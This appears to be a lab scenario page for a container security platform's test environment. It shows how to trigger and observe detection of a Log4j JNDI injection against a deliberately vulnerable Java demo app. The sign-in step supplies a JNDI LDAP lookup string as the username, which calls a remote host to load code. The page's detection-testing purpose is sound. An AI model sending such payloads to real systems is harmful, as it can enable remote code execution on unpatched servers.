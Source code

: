 # Scenario: Detect JNDI Injection in HTTP Request (Log4j)

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
$ pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Navigate to <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/todolist>

Click `[Sign in]`

- Username: `${jndi:ldap://host.docker.internal:9999/Commons2}`
- Password: `does not matter`

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-log4j-01.png "Poc")

> ***Note:*** The currently deployed app is not vulnerable for Log4j, the technique from above still triggers the exploitation attempt.
